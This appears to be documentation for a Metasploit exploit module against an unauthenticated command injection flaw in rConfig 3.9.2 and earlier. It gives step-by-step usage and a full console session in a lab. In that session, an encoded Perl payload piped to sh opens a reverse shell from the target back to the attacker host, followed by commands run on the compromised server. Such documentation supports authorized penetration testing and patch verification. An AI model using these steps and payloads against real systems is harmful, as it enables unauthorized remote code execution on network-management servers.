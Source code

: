 ## Description

  This module exploits an unauthenticated command injection vulnerability
  in rConfig versions 3.9.2 and prior. The `install` directory is not
  automatically removed after installation, allowing unauthenticated users
  to execute arbitrary commands via the `ajaxServerSettingsChk.php` file
  as the web server user.


## Vulnerable Software

  This module has been tested successfully on [rConfig](https://rconfig.com/)
  version 3.9.2 on CentOS 7.7.1908 (x64).


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/webapp/rconfig_install_cmd_exec`
  3. Do: `set rhosts <IP>`
  4. Do: `run`
  5. You should get a new session


## Options

  **TARGETURI**

  The base path to rConfig install directory (default: `/install/`)


## Scenarios

  ```
  msf5 > use exploit/unix/webapp/rconfig_install_cmd_exec 
  msf5 exploit(unix/webapp/rconfig_install_cmd_exec) > set rhosts 172.16.191.131
  rhosts => 172.16.191.131
  msf5 exploit(unix/webapp/rconfig_install_cmd_exec) > set verbose true
  verbose => true
  msf5 exploit(unix/webapp/rconfig_install_cmd_exec) > check

  [*] Executing command: id
  [*] Response: uid=48(apache) gid=48(apache) groups=48(apache)
  [+] 172.16.191.131:443 - The target is vulnerable.
  msf5 exploit(unix/webapp/rconfig_install_cmd_exec) > show targets

  Exploit targets:

     Id  Name
     --  ----
     0   Unix CMD
     1   Linux Command Stager


  msf5 exploit(unix/webapp/rconfig_install_cmd_exec) > set target 0
  target => 0
  msf5 exploit(unix/webapp/rconfig_install_cmd_exec) > set payload cmd/unix/reverse_perl
  payload => cmd/unix/reverse_perl
  msf5 exploit(unix/webapp/rconfig_install_cmd_exec) > set lhost 172.16.191.165 
  lhost => 172.16.191.165
  msf5 exploit(unix/webapp/rconfig_install_cmd_exec) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [*] Executing command: id
  [*] Response: uid=48(apache) gid=48(apache) groups=48(apache)
  [*] Executing command: /bin/echo -ne '\x70\x65\x72\x6c\x20\x2d\x4d\x49\x4f\x20\x2d\x65\x20\x27\x24\x70\x3d\x66\x6f\x72\x6b\x3b\x65\x78\x69\x74\x2c\x69\x66\x28\x24\x70\x29\x3b\x66\x6f\x72\x65\x61\x63\x68\x20\x6d\x79\x20\x24\x6b\x65\x79\x28\x6b\x65\x79\x73\x20\x25\x45\x4e\x56\x29\x7b\x69\x66\x28\x24\x45\x4e\x56\x7b\x24\x6b\x65\x79\x7d\x3d\x7e\x2f\x28\x2e\x2a\x29\x2f\x29\x7b\x24\x45\x4e\x56\x7b\x24\x6b\x65\x79\x7d\x3d\x24\x31\x3b\x7d\x7d\x24\x63\x3d\x6e\x65\x77\x20\x49\x4f\x3a\x3a\x53\x6f\x63\x6b\x65\x74\x3a\x3a\x49\x4e\x45\x54\x28\x50\x65\x65\x72\x41\x64\x64\x72\x2c\x22\x31\x37\x32\x2e\x31\x36\x2e\x31\x39\x31\x2e\x31\x36\x35\x3a\x34\x34\x34\x34\x22\x29\x3b\x53\x54\x44\x49\x4e\x2d\x3e\x66\x64\x6f\x70\x65\x6e\x28\x24\x63\x2c\x72\x29\x3b\x24\x7e\x2d\x3e\x66\x64\x6f\x70\x65\x6e\x28\x24\x63\x2c\x77\x29\x3b\x77\x68\x69\x6c\x65\x28\x3c\x3e\x29\x7b\x69\x66\x28\x24\x5f\x3d\x7e\x20\x2f\x28\x2e\x2a\x29\x2f\x29\x7b\x73\x79\x73\x74\x65\x6d\x20\x24\x31\x3b\x7d\x7d\x3b\x27'|sh
  [*] Command shell session 1 opened (172.16.191.165:4444 -> 172.16.191.131:35004) at 2019-10-29 11:48:59 -0400

  id
  uid=48(apache) gid=48(apache) groups=48(apache)
  uname -a
  Linux localhost.localdomain 3.10.0-1062.4.1.el7.x86_64 #1 SMP Fri Oct 18 17:15:30 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
  pwd
  /home/rconfig/www/install/lib/ajaxHandlers
  ^C
  Abort session 1? [y/N]  y
  ""

  [*] 172.16.191.131 - Command shell session 1 closed.  Reason: User exit
  msf5 exploit(unix/webapp/rconfig_install_cmd_exec) > 
  ```

